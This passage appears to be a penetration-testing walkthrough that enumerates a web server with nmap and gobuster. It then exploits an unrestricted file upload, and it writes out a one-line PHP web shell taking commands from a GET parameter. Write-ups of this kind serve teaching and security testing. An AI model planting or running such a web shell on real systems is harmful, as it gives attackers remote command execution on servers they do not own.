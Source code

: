 ```bash
    |_http-title: Site doesn't have a title (text/html; charset=UTF-8).
    |_{redacted}
    445/tcp   open   microsoft-ds
    5901/tcp  open   vnc-1
    | vnc-info: 
    |   Protocol version: 3.8
    |   Security types: 
    |_    VNC Authentication (2)
    8080/tcp  open   http-proxy
    |_http-title: 400 Bad Request
    8081/tcp  open   blackice-icecap
```
> The scan completed in about 2 minutes.

That’s a lot of open ports! By observing that the [FTP](https://en.wikipedia.org/wiki/File_Transfer_Protocol) (port 21) and SMB (ports 139/445) ports are open we can guess that the server is used for file hosting and for file sharing, along with it being a webserver (ports 80/443 and proxies at 8080/8081).

![From The Art of War. Enumerating is key.](https://cdn-images-1.medium.com/max/2000/0*9A9HPkmj-NLW7Pe3.)*From The Art of War. Enumerating is key.*

Doing a UDP port scan and scanning more than the top 1000 ports would be considered if the above scan’s information was not enough. The only port we are allowed to interact with (without credentials) is port 80/443.

Without wasting any time, I launch gobuster to enumerate for any interesting files on the webserver while I’ll be digging for information manually.

```bash
$ gobuster -u http://example.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100

/admin
/login
```

Turns out the /admin path was an “admin tool” which allowed authenticated users to modify stuff on the webserver. It required credentials and since we have neither a username nor a password we move on. (spoiler: gobuster did not find anything of value)
> So far we are about 3 minutes in. Nothing useful, yet.

Browsing to the website we see that it asks us to login. No problem, we create an account with a [dummy e-mail](http://www.fakemailgenerator.com), click the confirmation e-mail and log-in after few seconds.

The website welcomes us and prompts us to navigate to our profile and update our profile picture. How kind.

Seeing that the website looks custom built, I am inclined to test for an [Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload) vulnerability. On my terminal I execute:

```bash
echo "<?php system(\$_GET['cmd']); ?>" > exploit.php
```

I try uploading the “image”, and bingo! The uploader allows the *exploit.php *file to get uploaded. Of course it has no thumbnail, but that means my file got uploaded somewhere.
